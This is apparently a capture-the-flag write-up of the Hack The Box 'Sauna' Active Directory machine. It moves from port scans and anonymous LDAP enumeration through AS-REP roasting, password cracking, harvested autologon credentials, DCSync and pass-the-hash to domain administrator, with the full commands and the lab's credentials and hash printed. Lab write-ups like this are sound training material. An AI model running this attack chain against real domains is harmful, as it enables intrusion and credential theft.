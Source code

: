 # Sauna 

### Enum 

Enum open ports

```bash
# Nmap 7.94 scan initiated Mon Sep 25 05:19:19 2023 as: nmap --min-rate=3000 -sS -oN nmap.init -v -n -p- 10.129.101.211
Increasing send delay for 10.129.101.211 from 0 to 5 due to 11 out of 24 dropped probes since last increase.
Nmap scan report for 10.129.101.211
Host is up (0.22s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49719/tcp open  unknown
```

Enum versions


`sudo nmap --min-rate=3000 -sVC -oN nmap.version -v -n -p53,80,88,135,139,389,445,464,593,636,5985,9389,49667,49673,49674,49677,49698,49719 10.129.101.211`

```bash
# Nmap 7.94 scan initiated Mon Sep 25 05:28:57 2023 as: nmap --min-rate=3000 -sVC -oN nmap.version -v -n -p53,80,88,135,139,389,445,464,593,636,5985,9389,49667,49673,49674,49677,49698,49719 10.129.101.211
Nmap scan report for 10.129.101.211
Host is up (0.22s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-25 20:29:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-25T20:29:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 05:30:39 2023 -- 1 IP address (1 host up) scanned in 101.47 seconds
```


#### Enumeration web site

Searching on the website, we found that there is a user directory, and due to the open ports, it's possible that these users are registered in the Active Directory.

![Usernames http](images/fc85f4c7ed8a4a543fb141bfc513b041af26e92865fa9735ad64992a37a015bf.png)  

Username List:

```txt
Fergus Smith
Shaun Coins
Sophie Driver 
Bowie Taylor 
Hugo Bear 
Steven Kerb 
```



#### Enumerando DNS

Noting

![Enum DNS](images/42e37a8ccad3d32d8f1c29ce87b8111e06c098331088db0b82d6d002b82ab406.png)  



#### Enumeration LDAP

First Getting the namingcontext in ldap.

```bash
ldapsearch -H ldap://10.129.101.211 -x -s base namingcontexts
```

```bash
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

From this LDAP query, we obtain the DNS of the controller, and then proceed to add it to the **/etc/hosts** file.

We perform an enumeration with a null session from the Naming context.

```bash 
ldapsearch -H ldap://10.129.101.211 -x -s base namingcontexts| grep 'namingcontexts:'  > namingcontexts
```

```bash
for i in $(cat namingcontexts | cut -d " " -f 2); do 
ldapsearch -x -H ldap://10.129.101.211 -D '' -w '' -b $i;
done
```

Next, we retrieve additional usernames for the user dictionary with the null sessions.

![Usernames](images/d67b27a13c19fab9e6a25fbd0388f4d0e9988776ec13f6427457efde52e95c82.png)  


## Explotación

We are searching for accounts that have pre-authentication disabled. To do this, we generate valid users from our potential usernames dictionary.

Use the tool **Username Generator**:

[AD Username Generator](https://github.com/mohinparamasivam/AD-Username-Generator.git)


`python3 username-generate.py -u /home/kali/Sauna/usernames_register -o /home/kali/Sauna/usernames_register.permutados`

![Generate Usernames](images/8d2d21d290fbe0096fa4314223535eac2acfdab3395b0b9cd45eaaf122a7c4fd.png)  

Verify if any employee has the pre-autentication disabled.

```bash 
for nombre in $(cat usernames_register.permutados); do          
  /usr/bin/impacket-GetNPUsers egotistical-bank.local/${nombre} -no-pass;
done
``` 

And find another a user **fsmith** that he have the pre-autentication disabled.

![picture 4](images/dd221459974b8c75e199cf58cfff089d7d638411502250e15d97871d0898cbd3.png)  

Then, we apply brute force to the krb5asrep ticket to obtain the credentials of fsmith.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.fsmit`


fsmith:Thestrokes23


![picture 5](images/283f3246a206f10c49753901039ac3f82afd0be6aee8c0623fa27bbc40a582b3.png)  




### Privilege Elevation


Using winpeas an execute, getting this information:

The user svc_loanmanager has their credentials stored in Winlogon.

![Winlogon credentials](images/25bcf3684b6d25d5d2353b9c7a087898b80082f27e7d05c4e8d493cdb4865e9e.png)  


```bash
EGOTISTICALBANK
EGOTISTICALBANK\svc_loanmanager
Moneymakestheworldgoround!
```

svc_loanmanager:Moneymakestheworldgoround!


We search her name in the local machine is **svc_loanmgr**

![picture 6](images/bad29086152fdfe2da70524728cc98714483a1617915785a8870aff9aacb06a9.png)  


Then the username and password is: 

svc_loanmgr:Moneymakestheworldgoround!


![picture 7](images/f40a22c27229bfb56ba20d3f0bde72df058b7d76d1f769b3703041bb8e4ea2e8.png)  



## Enumeracion de permisos.


Execute Bloodhound remote.

```bash
bloodhound-python -u svc_loanmgr -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.129.101.211 -c All
```

![picture 8](images/1e2baff470c2f5e5e1774f9bf545a4aaee49a021a23229ec7706768c66f9ddf5.png)  



Running the Bloodhound GUI.


`sudo neo4j console`
`bloodhound`

Then found a insecure permission.

![picture 9](images/0c8716a184319db39407be8c410b94007a2c37c1336091822cb0b1cd6d713b9c.png)  



Exploit the DCSync

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc svc_loanmgr:Moneymakestheworldgoround\!@10.129.101.211 -outputfile dcsync.hash
```

![picture 10](images/533719ff5e6381ddb297284b14d25f510d75a1a0e2b2d3dceb188ba979ddaf37.png)  




Getting the admin with pass the hash.

```bash
/usr/share/doc/python3-impacket/examples/psexec.py EGOTISTICAL-BANK.LOCAL/administrator@10.129.101.211 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

Rooting

![picture 11](images/2b2dcd53a126465671cdea7e6877df009954563494d2517821015ab4cfc5132f.png)  
